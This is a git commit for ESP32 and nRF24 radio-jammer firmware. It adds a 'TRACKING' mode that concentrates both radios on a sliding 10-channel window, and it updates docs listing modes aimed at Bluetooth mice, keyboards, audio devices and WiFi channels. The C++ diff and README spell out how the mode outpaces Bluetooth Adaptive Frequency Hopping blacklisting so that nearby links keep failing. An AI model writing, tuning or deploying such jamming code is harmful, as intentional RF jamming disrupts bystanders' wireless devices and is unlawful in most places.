

Tracking mode, regenerated diagrams, comprehensive docs update
- Replace PERCEPTIVE with TRACKING mode: concentrated 10-channel
  window sweep that slides every ~500ms, 20% hit rate per channel
  (8x more concentrated than barrage), full spectrum in ~4s
- LED: white breathing for TRACKING mode
- Regenerate all hardware diagrams with correct pinouts:
  wiring-full.png, esp32s3-pinout.png, nrf24l01-pinout.png
- Update docs/README.md: add TRACKING mode docs, LED color table,
  fix mode numbering (now 7 modes: 0-6), add BLE discovery note
- Update README.md mode table with TRACKING replacing PERCEPTIVE

Made-with: Cursor

diff --git a/main/jammer_main.cpp b/main/jammer_main.cpp
@@ -145,7 +145,7 @@ static inline uint8_t rand_channel(void) {
 enum JammerMode {
     MODE_BARRAGE,           // LED: slow rainbow    | random hop all 80 ch
     MODE_BLE_ADV_BARRAGE,   // LED: cyan breath     | R1=adv ctrl + R2=random data
-    MODE_PERCEPTIVE,        // LED: magenta breath   | R1=adv+random interleave, R2=barrage
+    MODE_TRACKING,          // LED: white breath     | concentrated 10-ch window sweep
     MODE_BT_CLASSIC,        // LED: blue breath     | sequential sweep ch 2-80
     MODE_BLE_ALL,           // LED: green breath    | all 40 BLE channels
     MODE_BLE_ADV,           // LED: yellow breath   | ch 2,26,80 rapid cycle
@@ -162,7 +162,10 @@ static bool sweep_dir2 = true;
 static uint8_t ble_idx1 = 0;
 static uint8_t ble_idx2 = 20;
 static uint8_t ble_adv_idx = 0;
-static uint8_t perceptive_cycle = 0;
+#define TRACKING_WINDOW_SIZE  10
+#define TRACKING_WINDOW_ITERS 3300
+static uint8_t tracking_window_base = 0;
+static uint32_t tracking_window_count = 0;
 
 static volatile bool s_jamming_active = false;
 
@@ -181,7 +184,7 @@ static void configure_radio_for_tx(RF24& radio);
 static void hop_carrier(RF24& radio, uint8_t channel);
 static void jam_barrage(void);
 static void jam_ble_adv_barrage(void);
-static void jam_perceptive(void);
+static void jam_tracking(void);
 static void jam_bt_classic(void);
 static void jam_ble_all(void);
 static void jam_ble_adv(void);
@@ -338,7 +341,7 @@ static void get_mode_color(JammerMode mode, uint8_t *r, uint8_t *g, uint8_t *b)
 {
     switch (mode) {
         case MODE_BLE_ADV_BARRAGE:  *r =   0; *g = 200; *b = 200; break; // cyan
-        case MODE_PERCEPTIVE:       *r = 200; *g =   0; *b = 200; break; // magenta
+        case MODE_TRACKING:         *r = 200; *g = 200; *b = 200; break; // white
         case MODE_BT_CLASSIC:       *r =   0; *g =   0; *b = 200; break; // blue
         case MODE_BLE_ALL:          *r =   0; *g = 200; *b =   0; break; // green
         case MODE_BLE_ADV:          *r = 200; *g = 200; *b =   0; break; // yellow
@@ -733,7 +736,8 @@ static void jam_task(void* arg)
             sweep_dir1 = true; sweep_dir2 = true;
             ble_idx1 = 0; ble_idx2 = 20;
             ble_adv_idx = 0;
-            perceptive_cycle = 0;
+            tracking_window_base = 0;
+            tracking_window_count = 0;
             if (!was_active) {
                 LOG_JAM("Radios active | R1=%s R2=%s",
                         radio1.isChipConnected() ? "ok" : "FAIL",
@@ -745,7 +749,7 @@ static void jam_task(void* arg)
         switch (currentMode) {
             case MODE_BARRAGE:          jam_barrage(); break;
             case MODE_BLE_ADV_BARRAGE:  jam_ble_adv_barrage(); break;
-            case MODE_PERCEPTIVE:       jam_perceptive(); break;
+            case MODE_TRACKING:         jam_tracking(); break;
             case MODE_BT_CLASSIC:       jam_bt_classic(); break;
             case MODE_BLE_ALL:          jam_ble_all(); break;
             case MODE_BLE_ADV:          jam_ble_adv(); break;
@@ -840,24 +844,29 @@ static void jam_ble_adv(void)
     ble_adv_idx = (ble_adv_idx + 1) % 3;
 }
 
-// ---------- MODE: PERCEPTIVE — multi-vector aggressive targeting ----------
-// Combines all effective attack vectors in a single mode:
-//   Radio 1: interleaves BLE adv channels (control plane disruption) with
-//            random barrage hops (data plane disruption) in a 1:3 ratio.
-//   Radio 2: pure random barrage across all 80 channels.
-// The interleaving means R1 hits an adv channel every 4th hop, keeping
-// sustained pressure on the BLE control connection while also contributing
-// to data-plane coverage. WiFi TX runs independently as always.
-static void jam_perceptive(void)
+// ---------- MODE: TRACKING — concentrated window sweep ----------
+// Both radios focus on a 10-channel window, hopping randomly within it.
+// The window slides by 10 channels every ~500 ms, sweeping the full
+// spectrum every ~4 seconds. Within each window the hit rate per channel
+// is 20% (2 radios / 10 channels) — 8x more concentrated than barrage.
+// AFH needs 1-8 seconds to blacklist channels, so the window moves
+// before the target device can fully adapt.
+static void jam_tracking(void)
 {
-    if ((perceptive_cycle & 0x03) == 0) {
-        hop_carrier(radio1, ble_adv_channels[ble_adv_idx]);
-        ble_adv_idx = (ble_adv_idx + 1) % 3;
-    } else {
-        hop_carrier(radio1, rand_channel());
+    uint8_t lo = tracking_window_base;
+    uint8_t hi = lo + TRACKING_WINDOW_SIZE - 1;
+    if (hi > MAX_CHANNEL) hi = MAX_CHANNEL;
+
+    uint8_t range = hi - lo + 1;
+    hop_carrier(radio1, lo + (xorshift32() % range));
+    hop_carrier(radio2, lo + (xorshift32() % range));
+
+    if (++tracking_window_count >= TRACKING_WINDOW_ITERS) {
+        tracking_window_count = 0;
+        tracking_window_base += TRACKING_WINDOW_SIZE;
+        if (tracking_window_base > MAX_CHANNEL)
+            tracking_window_base = 0;
     }
-    perceptive_cycle++;
-    hop_carrier(radio2, rand_channel());
 }
 
 // MODE 6: CONSTANT CARRIER — CW on ch 45 (baseline / single-channel test)
@@ -873,7 +882,7 @@ static void print_mode(void)
     switch (currentMode) {
         case MODE_BARRAGE:          modeStr = "BARRAGE [rainbow] random hop all 80ch"; break;
         case MODE_BLE_ADV_BARRAGE:  modeStr = "ADV+BARRAGE [cyan] R1=adv ctrl, R2=random"; break;
-        case MODE_PERCEPTIVE:       modeStr = "PERCEPTIVE [magenta] R1=adv+random, R2=barrage"; break;
+        case MODE_TRACKING:         modeStr = "TRACKING [white] 10-ch window sweep, 8x concentrated"; break;
         case MODE_BT_CLASSIC:       modeStr = "BT CLASSIC [blue] sweep ch 2-80"; break;
         case MODE_BLE_ALL:          modeStr = "BLE ALL [green] 40 BLE channels"; break;
         case MODE_BLE_ADV:          modeStr = "BLE ADV [yellow] ch 2,26,80 rapid"; break;

diff --git a/docs/README.md b/docs/README.md
@@ -109,17 +109,31 @@ Replace `PORT` with your serial port (e.g. `/dev/tty.usbserial-*` or `COM3`). Af
 
 ## Usage
 
-- **Short press** (button on GPIO 35): toggle jamming on/off. LED reflects state (rainbow = active, off = idle).
+- **Short press** (button on GPIO 35): toggle jamming on/off.
 - **Long press** (~800 ms): cycle to the next jamming mode.
 - Jammer starts in BARRAGE mode on boot with jamming active.
+- At startup, a 3-second BLE discovery scan logs nearby devices (MAC, name, RSSI) to serial.
 
-**LED behavior:** Rainbow pattern while jamming (slower in constant carrier mode, faster in hopping modes); off when jamming is stopped.
+### LED indicator
+
+Each mode has a distinct LED color for at-a-glance identification:
+
+| Mode | LED Color | Animation |
+|------|-----------|-----------|
+| BARRAGE | Rainbow | Slow hue cycle |
+| ADV+BARRAGE | Cyan | Breathing (fade in/out) |
+| TRACKING | White | Breathing |
+| BT CLASSIC | Blue | Breathing |
+| BLE ALL | Green | Breathing |
+| BLE ADV | Yellow | Breathing |
+| CONSTANT CARRIER | Red | Breathing |
+| Jamming OFF | Off | — |
 
 ---
 
 ## Jamming modes — detailed reference
 
-The jammer cycles through six modes on each long press. Each mode uses continuous wave (CW) transmission from the NRF24 modules (100% RF duty cycle — the carrier never stops) combined with ESP32 WiFi raw TX (20 MHz wideband on channels 1/6/11).
+The jammer cycles through seven modes on each long press. All hopping modes use continuous wave (CW) transmission from the NRF24 modules (100% RF duty cycle — the carrier never stops) combined with ESP32 WiFi raw TX (20 MHz wideband on channels 1/6/11).
 
 ### Mode 0: BARRAGE
 
@@ -145,7 +159,24 @@ This is a dual-attack mode. Radio 1 rapid-cycles the three BLE advertising chann
 
 ---
 
-### Mode 2: BT CLASSIC
+### Mode 2: TRACKING
+
+**Best for:** Concentrated regional interference, overcoming Adaptive Frequency Hopping.
+
+Both radios focus on a narrow 10-channel window, hopping randomly within it. The window slides by 10 channels every ~500 ms (3300 iterations), sweeping the full 80-channel spectrum every ~4 seconds.
+
+**How it works technically:** Instead of spreading 2 radios across 80 channels (2.5% hit rate), TRACKING concentrates both radios on 10 channels at a time — a 20% hit rate per channel, 8x more concentrated than barrage. The window slides before AFH can fully adapt (AFH needs 1-8 seconds to detect and blacklist channels). When the window circles back, previously blacklisted channels may have been un-blacklisted (requires 8 consecutive clean scans to unblock), so they get hit again.
+
+**Math comparison:**
+- Barrage: 2 radios / 80 channels = 2.5% per hop
+- Tracking: 2 radios / 10 channels = 20% per hop (8x improvement)
+- Full spectrum coverage: ~4 seconds per cycle
+
+**Tradeoff:** Takes 4 seconds to cover the full spectrum vs barrage's instant-but-thin coverage. During each 500 ms window, the interference on those 10 channels is dramatically stronger.
+
+---
+
+### Mode 3: BT CLASSIC
 
 **Best for:** Testing BT Classic vulnerability, sequential spectrum coverage analysis.
 
@@ -157,7 +188,7 @@ Both radios perform a sequential sweep across all 79 BT Classic FHSS data channe
 
 ---
 
-### Mode 3: BLE ALL
+### Mode 4: BLE ALL
 
 **Best for:** Comprehensive BLE disruption, testing BLE data channel resilience.
 
@@ -167,7 +198,7 @@ Both radios cycle through all 40 BLE data and advertising channels (even nRF24 c
 
 ---
 
-### Mode 4: BLE ADV
+### Mode 5: BLE ADV
 
 **Best for:** BLE device discovery disruption, preventing new BLE connections, control channel attacks.
 
@@ -179,7 +210,7 @@ Both radios rapid-cycle across the three BLE advertising channels: channel 37 (2
 
 ---
 
-### Mode 5: CONSTANT CARRIER
+### Mode 6: CONSTANT CARRIER
 
 **Best for:** Baseline RF output testing, antenna verification, single-channel interference analysis.
 

diff --git a/README.md b/README.md
@@ -64,7 +64,7 @@ The jammer boots in **BARRAGE** mode and cycles through the following modes on e
 |---|------|-----|----------|-------------|
 | 0 | **BARRAGE** | Slow rainbow | BLE devices (mice, keyboards) | Both radios randomly hop all 80 channels with 130 us PLL dwell. 100% CW duty cycle. ~6600 hops/s per radio. |
 | 1 | **ADV+BARRAGE** | Cyan breathing | Audio devices (hybrid control+data attack) | R1 rapid-cycles BLE advertising channels (2, 26, 80) disrupting the control plane. R2 does random barrage across all channels hitting the data plane. |
-| 2 | **PERCEPTIVE** | Magenta breathing | Multi-vector aggressive targeting | R1 interleaves BLE adv channel hits (every 4th hop) with random barrage. R2 does pure random barrage. Combines control-plane pressure with full-spectrum coverage. BLE device discovery at startup logs nearby devices. |
+| 2 | **TRACKING** | White breathing | Concentrated regional attack | Both radios focus on a 10-channel window that slides across the spectrum every ~500ms. 20% hit rate per channel (8x more concentrated than barrage). Full spectrum swept every ~4s. BLE device discovery at startup. |
 | 3 | **BT CLASSIC** | Blue breathing | BT Classic data connections | Sequential CW sweep across all 79 BT Classic channels (nRF24 ch 2-80). Radios sweep in opposite directions for maximum coverage. |
 | 4 | **BLE ALL** | Green breathing | All BLE connections | Cycles through all 40 BLE data + advertising channels (even nRF24 channels 2-80). Radios offset by 20 channels. |
 | 5 | **BLE ADV** | Yellow breathing | BLE control disruption | Both radios rapid-cycle the 3 BLE advertising channels (2402/2426/2480 MHz). Most effective at disrupting BLE device discovery and control connections. |
